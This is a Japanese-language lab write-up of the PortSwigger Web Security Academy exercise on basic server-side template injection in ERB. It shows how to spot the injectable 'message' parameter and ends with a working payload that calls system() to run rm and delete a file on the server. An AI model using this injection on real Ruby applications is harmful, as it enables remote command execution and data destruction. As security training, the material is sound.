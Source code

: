 # 基本的なサーバー側のテンプレート インジェクション

次のハッキングラボを実施します  
https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic

このラボは、ERB テンプレートの安全でない構造のため、 サーバー側のテンプレート インジェクション に対して脆弱です。

- 1. ハッキングラボにアクセスします
- 2. 商品ページへのアクセスを試みます
     ![1](https://github.com/pea-sys/web-security-experiments/assets/49807271/6b1eda72-1065-4b72-9eba-5da1d2689b17)
- 3. エラーメッセージが表示されます。url にメッセージのパラメータが確認できます。

```
https://0a3b006304da0c84826a5b09000e00f2.web-security-academy.net/?message=Unfortunately%20this%20product%20is%20out%20of%20stock
```

- 4. パラメータに erb テンプレートで式評価される構文を差し込みます

```
<%= someExpression %>
```

https://www.puppet.com/docs/puppet/5.5/lang_template_erb.html

- 5. 以下の erb テンプレートのエラーが返ってきます

```
Internal Server Error
(erb):1:in `<main>': undefined local variable or method `someExpression' for main:Object (NameError) from /usr/lib/ruby/2.7.0/erb.rb:905:in `eval' from /usr/lib/ruby/2.7.0/erb.rb:905:in `result' from -e:4:in `<main>'
```

- 6. 式を以下のように書き換えて、URL の message パラメータに渡すとユーザー削除ができます

```
<%= system("rm /home/carlos/morale.txt") %>
```
